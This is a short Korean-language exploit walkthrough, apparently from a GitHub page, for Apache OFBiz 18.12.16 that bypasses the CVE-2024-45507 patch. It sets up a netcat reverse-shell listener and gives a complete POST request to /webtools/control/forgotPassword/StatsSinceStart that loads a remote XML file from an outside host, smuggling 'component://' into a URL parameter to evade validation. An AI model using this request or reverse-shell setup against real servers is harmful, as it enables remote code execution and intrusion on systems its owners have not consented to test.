 ## 리버스 쉘 준비

리버스 쉘은 `nc` 명령어를 이용합니다.

```xml
nc -lvp 9999
```

![images](./images/image-005.png)

## 패킷 요청

다음의 요청 패킷을 Apache OFBiz 18.12.16 버전에 요청합니다. 이때, Cookie 의 값은 인증된 사용자의 `JSESSIONID` 값이여야 합니다.

또한, `CVE-2024-45507` 취약점의 패치기록에 의하면 `statsDecoratorLocation` 의 값에 `component://` 가 포함되지 않을 경우 에러가 발생하게 됩니다. 이에 URL 파라미터 `bypass` 의 값으로 `component://`를 전달하여 이러한 검증을 우회합니다.

```xml
POST /webtools/control/forgotPassword/StatsSinceStart HTTP/1.1
Host: localhost:8443
Cookie: JSESSIONID=<인증된 사용자의 JSESSIONID 값>;
Content-Type: application/x-www-form-urlencoded
Content-Length: 58

statsDecoratorLocation=http://server.dottak.me:80/test.xml?bypass=component://
```
